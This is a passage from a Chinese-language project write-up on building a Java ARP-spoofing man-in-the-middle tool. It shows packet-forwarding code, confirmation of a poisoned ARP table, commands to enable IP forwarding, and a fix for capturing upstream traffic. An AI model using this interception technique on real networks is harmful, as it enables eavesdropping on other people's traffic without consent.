                  if(packet.datalink instanceof EthernetPacket){
                    EthernetPacket eth = (EthernetPacket) packet.datalink;
                    String macFromCap = eth.getSourceAddress();
                    if(!macFromCap.equalsIgnoreCase(config.getSrcMac())){
                      savePacket(ipPacket, true);
                    }
                  }
                  forward(ipPacket, gateMACBT);
                }
                //如果这个数据包的目的IP地址是目标主机的IP地址，那么说明是下行链路的数据包
                else if(ipPacket.dst_ip.getHostAddress().equals(config.getDestIp())){
                  savePacket(ipPacket, false);
                  forward(ipPacket, dstMACBT);
                }
              }
            }

            //检查是否是ARP包
            if(packet instanceof ARPPacket){
              ....
            }
          }
        }catch (Throwable e){
          ...
        }
      }
    }
  };
  executor.execute(task);
}
```

接下来测试欺骗能否成功，运行程序，并访问请求`attack/startAttack`，此时服务端会开启两个子线程：

1. 一个线程用于发送欺骗包给目标主机和网关，进行欺骗。
2. 一个线程从网卡上抓包，看看能否抓到目标主机访问`filterDomain`的数据包。

首先在目标主机上查看ARP表，判断是否欺骗成功：

![image-20210329191331592](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329191331592.png)

如上图所示，已经成功将目标主机的网关MAC地址修改为了本地主机的MAC地址，因此目标主机发送的数据包都会经过本地主机的网卡。接下来我们在目标主机上访问`filterDomain`，并在服务端开启第二个线程抓包。结果失败了，压根没抓到目标主机的数据包，为什么呢？检查发现目标主机已经不能访问Internet了，发不出包。

既然MAC地址已经是本地主机了，说明目标主机的数据包应该能够发送到本地主机的网卡上，有可能是本地主机的网卡没开启IP转发，因为即使数据包接收到了，程序也调用了转发方法，但是底层的设备不支持IP转发，目标主机仍旧是无法访问Internet的。

所以我们尝试在本地主机上开启IP转发功能：

1. 在MAC上：
   1. 开启IP转发：sudo sysctl -w net.inet.ip.forwarding=1
   2. 查看IP转发已开启（为1）：sudo sysctl -a | grep net.inet.ip.forwarding

2. 在windows上：
   1. 开启IP转发：以管理员身份打开注册表编辑器，定位注册项HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/Tcpip/Parameters，选择项目IPEnableRouter并修改数值为1

![image-20210329192456978](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329192456978.png)

本地主机IP转发开启成功，继续测试：在目标主机上`ping www.baidu.com`，抓到一个从网关发到目标主机的ICMP数据包，我们把它转存入Redis：

![image-20210329193000045](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329193000045.png)

至此基本的攻击算是成功了。

为了后面的数据包分析功能，我决定把数据包存在redis的list结构中，list集合的名称按`batch_id`命名，list中的value就是每个序列化后的数据包实体。

开放攻击，查看前端数据统计，成功抓到了许多数据包。但是很明显有一个问题：只有下行的数据包被抓到了，上行的数据包没有被抓到。

![image-20210329204233419](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329204233419.png)

我感觉是本地主机开了IP转发的原因，网卡在接收到目标主机访问百度的数据包后，进行IP转发，把源MAC地址修改为了本地主机的MAC地址，然后将数据包转发给网关，所以当数据包的MAC地址为本地主机的MAC地址时，本程序将其过滤掉了。看看问题代码:

```java
//如果这个数据包的源IP地址是目标主机的IP地址，那么说明是上行链路的数据包
if(ipPacket.src_ip.getHostAddress().equals(config.getDestIp())){
  //如果这个数据包的源MAC地址是本地主机的MAC地址，说明这是我自己发送的数据包，需要忽略
  if(ipPacket.datalink instanceof EthernetPacket){
    EthernetPacket eth = (EthernetPacket) ipPacket.datalink;
    String macFromCap = eth.getSourceAddress();
    if(macFromCap.equalsIgnoreCase(config.getDestMac())){//卡在这了
      savePacket(ipPacket, true);
    }
  }
  forward(ipPacket, gateMACBT);
}
```

将MAC地址的限制放开，因为在外层if逻辑中已经明确判断出IP地址是目标主机的IP地址了，那么就不用MAC地址过滤了，把最内层if逻辑删除。重新抓包：抓到了上行链路的数据包，基本上是ping 1个，回应2个。

![image-20210329213112283](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329213112283.png)



#### 5.5.3 停止攻击

点击attack stop按钮后，会向服务器发送请求`/attack/stopAttack`。将标识位`attacking`置为`false`，并返回`batch_id`到前端。前端随即将`batch_id`作为参数向服务器发起请求`analyse/analysisByBatchId?batchId=1`，开始分析数据包。





### 5.6 数据包分析


